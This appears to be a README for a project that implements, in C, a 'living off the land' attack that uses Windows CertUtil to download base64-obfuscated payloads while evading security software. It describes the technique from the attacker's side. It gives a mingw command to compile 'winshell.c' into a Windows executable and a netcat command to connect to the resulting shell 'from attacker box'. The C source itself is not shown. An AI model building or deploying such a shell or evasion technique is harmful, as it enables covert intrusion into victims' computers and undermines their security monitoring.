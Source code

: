 #IMPLEMENTATION OF https://www.sentinelone.com/blog/malware-living-off-land-with-certutil/ IN C PROGRAMMING LANGUAGE
One tactic that has become increasingly popular to achieve stealth is ‘living off the land’. This involves using tools natively found on the victim’s device to achieve some or all of the attacker’s purposes while at the same time reducing the attacker’s exposure and risk of detection.
CertUtil.exe is an admin command line tool intended by Microsoft to be used for manipulating certification authority (CA) data and components. This includes verifying certificates and certificate chains, dumping and displaying CA configuration information and configuring Certificate Services.

How Attackers Use CertUtil
CertUtil can replace PowerShell for specific tasks such as downloading a file from a remote URL and encoding and decoding a Base64 obfuscated payload.
In order to avoid detection by security software scanning for malicious strings, the attacker firsts encodes a file with base64 and then engineers a way to download it to a location on the victim’s device.

Compile winshell.c
sudo i686-w64-mingw32-gcc winshell.c -o winshell.exe


Connect Windows shell from attacker box(Linux Machine)
nc -nv 0.0.0.0 4444
